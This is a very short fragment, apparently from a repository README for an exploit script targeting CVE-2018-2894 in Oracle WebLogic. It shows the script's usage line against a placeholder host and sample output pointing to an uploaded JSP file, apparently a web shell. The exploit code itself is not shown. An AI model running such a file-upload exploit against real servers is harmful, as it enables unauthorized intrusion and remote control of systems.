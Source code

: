 ```python cve-2018-2894_upload.py -t http://IP:PORT```

```[+] Check URL: http://IP:PORT/ws_utc/css/config/keystore/1585895893159_360sglab.jsp```
